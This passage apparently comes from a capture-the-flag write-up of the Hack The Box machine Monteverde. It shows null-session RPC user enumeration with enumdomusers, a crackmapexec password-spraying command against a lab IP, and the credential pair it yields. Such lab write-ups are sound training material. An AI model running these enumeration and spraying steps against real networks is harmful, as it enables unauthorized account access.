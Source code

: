 
## Getting User through mostly Enumeration

⇒ So we are able to login in rpc through null authentication and enumere domain users using the command **`enumdomusers`** 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Monteverde%20Box%20b0260a1c1ca7425da49daee88b891ea7/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Monteverde%20Box%20b0260a1c1ca7425da49daee88b891ea7/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Monteverde%20Box%20b0260a1c1ca7425da49daee88b891ea7/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Monteverde%20Box%20b0260a1c1ca7425da49daee88b891ea7/Untitled%203.png)

- Next we created an list of users and performed password spraying using crackmapexec

```php
crackmapexec smb 10.10.10.172 -u users -p users
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Monteverde%20Box%20b0260a1c1ca7425da49daee88b891ea7/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Monteverde%20Box%20b0260a1c1ca7425da49daee88b891ea7/Untitled%204.png)

**SABatchJobs : SABatchJobs**

---

### Enumerating SMBClient
